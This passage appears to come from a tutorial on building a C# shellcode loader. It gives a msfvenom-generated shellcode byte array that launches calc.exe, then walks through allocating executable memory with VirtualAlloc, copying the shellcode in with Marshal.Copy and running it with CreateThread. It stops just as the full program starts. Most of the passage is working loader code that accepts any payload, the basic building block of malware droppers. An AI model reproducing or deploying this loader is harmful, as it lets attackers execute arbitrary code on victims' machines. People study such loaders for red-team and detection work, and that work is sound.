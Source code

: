 ```csharp

public enum PROTECTION
{
  PAGE_EXECUTE_READWRITE = 0x40
}
```
Now on to our Main method. We can start by initializing a C# byte array of our payload. For simplicity, I will be using a simple `msfvenom` generated payload that pops calculator.
```csharp
// msfvenom -p windows/exec CMD=calc.exe -f csharp
byte[] buf = new byte[193] {
      0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
      0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
      0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
      0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
      0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
      0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
      0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
      0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
      0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
      0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,
      0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,
      0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
      0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
```
As that is sorted now we can use our APIs to execute it. First we use `VirtualAlloc` to allocate some memory for our shellcode. The address is going to be zero because we are just starting it, the size needs to be equal to the size of shellcode, aloocation needs to be `MEM_COMMIT`, and the protection should be `PAGE_EXECUTE_READWRITE`. So this becomes:
```csharp
int shellcode_size = buf.Length;
IntPtr init = VirtualAlloc(IntPtr.Zero, shellcode_size, (UInt32)TYPE.MEM_COMMIT, (UInt32)PROTECTION.PAGE_EXECUTE_READWRITE);
```
Now that the memory space is allocated we can use `Marshal.Copy` to put our shellcode in the place. It takes 4 arguments, The byte array of our shellcode, the starting index, the destination and the size.
```csharp
Marshal.Copy(buf, 0, init, shellcode_size);
```
Next step is to execute the shellcode. We do that by using `CreateThread`. Before it we need to initialize some things for it to use. Then we can use it as:
```csharp
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;

hThread = CreateThread(0, 0, (UInt32)init, pinfo, 0, ref threadId);
```
Lastly we will use `WaitForSingleObject` to make our thread wait for infinite number of time.
```csharp
WaitForSingleObject(hThread, 0xFFFFFFFF);
```
When we put all of that together we get:
```csharp
using System;
using System.Runtime.InteropServices;

namespace demo
{
  class Program
  {
    [DllImport("kernel32.dll")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, int dwSize, UInt32 flAllocationType, UInt32 flProtect);
```